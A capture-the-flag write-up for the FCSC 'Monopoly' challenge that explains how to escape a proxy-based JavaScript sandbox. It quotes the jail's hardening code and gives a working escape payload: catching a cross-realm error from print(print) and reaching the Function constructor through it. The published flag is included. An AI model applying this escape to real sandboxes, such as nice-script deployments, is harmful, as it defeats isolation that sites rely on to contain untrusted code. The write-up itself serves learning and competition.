








# Monopoly

## Description

```
How about a game of Monopoly? I hope you have your "get out of jail free" card ready.
 
https://monopoly.france-cybersecurity-challenge.fr/ 
```

## Solution

This challenge is about a monopoly game, and when you step on the jail cell, you're... sent to jail :



The goal of this challenge is to execute the `alert` function with the content `[GET OUT OF JAIL]`.

To escape this kind of jail, we must, by various means, retrieve an object that has not been declared in the jail but comes from outside, so that its constructor is not rewritten and we can use it to execute the code we want.

We can take a look at the file `jail.js` :

```js
function freezeEveryThing() {

  const asyncFunc = async function () {};
  const asyncGenFunc = async function* () {};
  const genFunc = function* () {};

  Function.prototype.constructor = null;
  Object.defineProperty(asyncFunc.constructor.prototype, "constructor", {
    value: null,
    configurable: false,
    writable: false,
  });
  Object.defineProperty(asyncGenFunc.constructor.prototype, "constructor", {
    value: null,
    configurable: false,
    writable: false,
  });
  Object.defineProperty(genFunc.constructor.prototype, "constructor", {
    value: null,
    configurable: false,
    writable: false,
  });

  Object.defineProperties = null;
  Object.defineProperty = null;
  Object.setPrototypeOf = null;

  Object.freeze(Array);
  Object.freeze(BigInt);
  Object.freeze(Error);
  Object.freeze(Function);
  Object.freeze(Math);
  Object.freeze(Number);
  Object.freeze(Object);
  Object.freeze(Promise);
  Object.freeze(RegExp);
  Object.freeze(String);
  Object.freeze(Symbol);
  Object.freeze(Array.prototype);
  Object.freeze(BigInt.prototype);
  Object.freeze(Error.prototype);
  Object.freeze(Function.prototype);
  Object.freeze(Math.prototype);
  Object.freeze(Number.prototype);
  Object.freeze(Object.prototype);
  Object.freeze(Promise.prototype);
  Object.freeze(RegExp.prototype);
  Object.freeze(String.prototype);
  Object.freeze(Symbol.prototype);

  Object.freeze(asyncFunc.__proto__);
  Object.freeze(asyncGenFunc.__proto__);
  Object.freeze(genFunc.__proto__);
  Object.freeze(asyncGenFunc.__proto__.prototype);
  Object.freeze(genFunc.__proto__.prototype);
}

//[...]

  Function(
    "global",
    `
with(global) {     
    with(proxy) {  
        return (function(){                                               
            "use strict";
            print("[Jail] Started");
            ${code};
        })();
    }
}`
  )(global);

function safeEval(code) {
  try {
    parent.postMessage("[Jail] Powering up", "*");
    if (checkSyntax(code)) {
      const start = Date.now();
      run(code);
      const end = Date.now();
      parent.postMessage(`[Jail] Done (${end - start}ms)`, "*");
    }
  } catch (e) {
    parent.postMessage(`[Jail] Error: ${e}`, "*");
  }
}
```

In the code, we can see the following code that might be injected as we control the `code` variable :

```js
Function(
    "global",
    `
with(global) {     
    with(proxy) {  
        return (function(){                                               
            "use strict";
            print("[Jail] Started");
            ${code};
        })();
    }
}`
  )(global);
```

But in the function `checkSyntax()`, `Function(code)` is called, which means that if we inject `});alert();//`, javascript will crash because this is not valid, so this is a mitigation to this potential bypass.

Since reading this piece of javascript broke my head, I decided to take a break and go on twitter.



When I was scrolling, I've seen this tweet from Bitk :



But what is nice-script ? Nice-script is, according to the [github repository](https://github.com/PortSwigger/nice-script/), "A JavaScript sandbox using proxies". If we take a look at the issues of this project, we can see that [terjanq](https://twitter.com/terjanq) has created the following issue :



So if we manage to catch an error that came from out of the jail, we will be able to access the constructor of Function and execute the code that we want.

The `print` function looks promising for that :

```js
print: proxyObject(parent.postMessage.bind(parent))
```

This function is used to communicate from the js file to the main window and display a message, this means that, every object passed to this function will be cloned to be displayed, but in javascript, proxy object canno't be cloned, this trigger an error :



What's cool here is that the error comes from outside the jail, so by taking over the issue created by terjanq, we can access its constructor via a block try catch :



We can therefore use the following code to execute the javascript that we want :

```js
try{
    print(print);
}catch(e){
    e.constructor.constructor('eval("alert(1)")')();
}
```



We just have to change the content of the alert to recover the flag :

```js
try{
    print(print);
}catch(e){
    e.constructor.constructor('eval("alert(\'[GET OUT OF JAIL]\')")')();
}
```



## Flag

FCSC{2fdaccef0afb084f40c4bf38f681262141bcbabfbed0312725f59e40c54edb21}